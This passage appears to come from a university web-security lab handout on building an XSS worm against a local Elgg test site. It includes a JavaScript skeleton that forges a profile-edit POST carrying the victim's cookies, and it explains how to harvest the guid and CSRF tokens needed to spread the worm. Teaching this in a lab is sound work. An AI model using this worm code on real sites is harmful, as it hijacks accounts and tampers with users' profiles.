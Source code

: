 To learn how to use {\tt XMLHttpRequest}, you can 
study these cited documents~\cite{ajaxnoobs,ajaxpostit}. 
If you are not familiar with JavaScript programming, we 
suggest that you read ~\cite{javascripttutorial} to learn some basic JavaScript
functions. You will have to use some of these functions.


\paragraph{Guideline 2: Code Skeleton.} We provide a skeleton of the JavaScript code 
that you need to write. You need to fill in all the necessary details.
When you store the final JavaScript code as a worm in the standalone file,
you need to remove all the comments, extra space, new-line characters, {\tt <script>}
and {\tt </script>}.

{\footnotesize
\begin{Verbatim}[frame=single] 
<script>
var Ajax=null;

// Construct the header information for the HTTP request
Ajax=new XMLHttpRequest();
Ajax.open("POST","http://www.xsslabelgg.com/action/profile/edit",true);
Ajax.setRequestHeader("Host","www.xsslabelgg.com");
Ajax.setRequestHeader("Keep-Alive","300");
Ajax.setRequestHeader("Connection","keep-alive");
Ajax.setRequestHeader("Cookie",document.cookie);
Ajax.setRequestHeader("Content-Type","application/x-www-form-urlencoded");

// Construct the content. The format of the content can be learned
// from LiveHTTPHeaders.
var content="name=..&description=...&guid="; // You need to fill in the
details.

// Send the HTTP POST request.
Ajax.send(content);
</script>
\end{Verbatim} 
} 


You may also need to debug your JavaScript code. 
In Firefox, select the "Developer" option from the menu (upper right),
and use the console and debugger to debug your script.
After finishing this task, change the "Content-Type" to "multipart/form-data" 
as in the original HTTP request. Repeat your attack, and describe your observation. 


\paragraph{Guideline 3: Getting the user details.} To modify the victim’s profile the
HTTP requests send from the worm should contain the victim’s {\tt username},
{\tt Guid}, {\tt \_\_elgg\_ts} and {\tt \_\_elgg\_token}. These details are present in the web page
and the worm needs to find out this information using JavaScript code.



